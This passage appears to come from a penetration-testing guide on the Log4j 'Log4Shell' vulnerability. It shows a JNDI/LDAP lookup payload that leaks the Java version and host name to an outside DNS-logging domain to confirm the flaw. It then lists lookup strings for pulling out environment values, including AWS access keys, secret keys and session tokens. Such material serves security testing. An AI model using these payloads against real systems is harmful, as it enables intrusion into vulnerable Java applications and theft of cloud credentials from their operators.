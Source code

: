 ```
or like `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** and if a **DNS request is received with the value of the env variable**, you know the application is vulnerable.

Other information you could try to **leak**:

```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

